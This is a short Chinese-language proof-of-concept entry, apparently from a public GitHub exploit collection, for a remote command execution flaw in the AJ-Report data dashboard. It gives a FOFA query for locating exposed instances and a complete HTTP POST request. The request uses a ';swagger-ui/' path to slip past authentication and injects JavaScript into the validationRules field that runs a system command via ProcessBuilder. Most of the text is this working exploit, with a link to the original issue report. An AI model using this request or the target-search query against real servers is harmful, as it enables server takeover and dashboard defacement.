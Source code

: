 ## AJ-Report开源数据大屏存在远程命令执行漏洞

该平台可以通过post方式在validationRules参数对应值中进行命令执行，可以获得服务器权限，登陆管理后台接管大屏。如果被不法分子利用，书写反动标语，危害后果十分严重。

## fofa
```
title="AJ-Report"
```

## poc
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

![image](https://github.com/wy876/POC/assets/139549762/8e96cef4-ea6f-4600-b622-9deb360ae42e)


## 漏洞来源
- https://gitee.com/anji-plus/report/issues/I9HCB2
